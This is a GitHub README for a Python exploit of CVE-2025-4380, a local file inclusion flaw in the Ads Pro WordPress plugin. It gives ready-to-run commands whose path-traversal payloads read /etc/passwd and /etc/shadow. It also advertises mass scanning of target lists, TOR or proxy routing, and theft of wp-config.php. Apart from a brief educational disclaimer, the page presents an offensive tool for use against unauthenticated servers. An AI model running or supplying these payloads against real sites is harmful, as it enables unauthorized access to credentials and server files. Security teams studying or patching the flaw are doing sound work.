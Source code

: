 # CVE-2025-4380 - Ads Pro Plugin <= 4.89 - Local File Inclusion (LFI) Exploit

## Description

This Python exploit targets **Ads Pro Plugin ≤ 4.89** for WordPress, vulnerable to **Local File Inclusion (LFI)** via the `bsa_preview_callback` AJAX action.

An unauthenticated attacker can exploit this to read arbitrary files from the server filesystem, including sensitive files such as `/etc/passwd`, `wp-config.php`, and more.

---

## Exploit Features

- Exploits **CVE-2025-4380** LFI vulnerability.
- Supports single target or mass exploitation.
- Saves outputs to file (optional).
- Supports HTTP proxies or TOR routing.
- Retry mechanism for reliability.

---

## Usage

### Single Target

```bash
python3 cve_2025_4380.py -u http://target.com -p ../../../../etc/passwd
```
### Multiple Targets (Mass Scan)
```bash
python3 cve_2025_4380.py -l targets.txt -p ../../../../etc/shadow
```
### Save Output to File
```bash
python3 cve_2025_4380.py -u http://target.com -p ../../../../etc/passwd -o output.txt
```
### Use Proxy (e.g., Burp, TOR)
```bash
python3 cve_2025_4380.py -u http://target.com -p ../../../../etc/passwd --proxy http://127.0.0.1:8080
```
## Parameters

| Argument         | Description                                     | Required |
| ---------------- | ----------------------------------------------- | -------- |
| `-u`, `--url`    | Target URL (e.g., `http://target.com`)          | Optional |
| `-l`, `--list`   | File with list of target URLs                   | Optional |
| `-p`, `--path`   | File path to include (e.g., `../../etc/passwd`) | **Yes**  |
| `-o`, `--output` | Output file to save results                     | Optional |
| `--proxy`        | Proxy (e.g., `http://127.0.0.1:8080`)           | Optional |

---

## Example

<img width="1900" height="700" alt="Screenshot_2025-07-20_18_42_08" src="https://github.com/user-attachments/assets/18cee98d-060b-4dd6-a8ad-89265df06f44" />


Burpsuite Request/Response

<img width="1920" height="672" alt="Screenshot_2025-07-20_18_42_45" src="https://github.com/user-attachments/assets/cc6b804b-47b3-47f6-868b-e63c5979b82e" />


<img width="1920" height="671" alt="Screenshot_2025-07-20_18_42_57" src="https://github.com/user-attachments/assets/b0749197-e601-4cc5-8819-ee6928fd087d" />



## Vulnerability Reference

-    CVE-2025-4380

-    Ads Pro Plugin <= 4.89 - Local File Inclusion via bsa_template in bsa_preview_callback

# ⚠️ Disclaimer

This exploit is provided for educational purposes and authorized security testing only.

---

## Official Channels

- [YouTube @rootctf](https://www.youtube.com/@rootctf)
- [X @r0otk3r](https://x.com/r0otk3r)
